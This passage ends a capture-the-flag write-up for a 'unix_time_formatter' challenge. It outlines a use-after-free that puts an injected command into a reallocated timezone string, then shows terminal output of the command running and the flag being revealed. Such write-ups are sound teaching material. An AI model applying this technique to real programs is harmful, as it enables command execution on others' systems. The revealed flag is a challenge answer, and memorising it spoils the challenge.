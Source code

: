 	[2]. We free this memory leaving the time_format_602118 stale

	[3]. We allocate a new timezone with size as large as the previous format string and we 
	     write our injected command.

	[4]. We print the time and trigger the UAF. time_format_602118 will point to the timezone
	     string in the heap, which is not sanitized and contains our command.

	[5]. We get the flag: PCTF{use_after_free_isnt_so_bad}
```
By running the exploit we can get our flag:
```
root@xrysa:~/ctf/plaidctf# ./unix_time_format_expl.py 
	Your formatted time is: QQQQ
	total 40
	drwxr-xr-x 2 root    root     4096 Apr 16 15:03 .
	drwxr-xr-x 4 root    root     4096 Apr 16 14:58 ..
	-rw-r--r-- 1 problem problem   220 Apr 16 14:58 .bash_logout
	-rw-r--r-- 1 problem problem  3771 Apr 16 14:58 .bashrc
	-rw-r--r-- 1 problem problem   675 Apr 16 14:58 .profile
	-rw-r--r-- 1 root    root       33 Apr 16 15:01 flag.txt
	-rwxr-xr-x 1 root    root    10488 Apr 16 14:58 unix_time_formatter
	-rwxr-xr-x 1 root    root      229 Apr 16 15:02 wrapper
	1) Set a time format.
	2) Set a time.
	3) Set a time zone.
	4) Print your time.
	5) Exit.
	> 
	
root@xrysa:~/ctf/plaidctf# ./unix_time_format_expl.py 
	Your formatted time is: QQQQ
	**PCTF{use_after_free_isnt_so_bad}**
	1) Set a time format.
	2) Set a time.
	3) Set a time zone.
	4) Print your time.
	5) Exit.
	> 
```
___
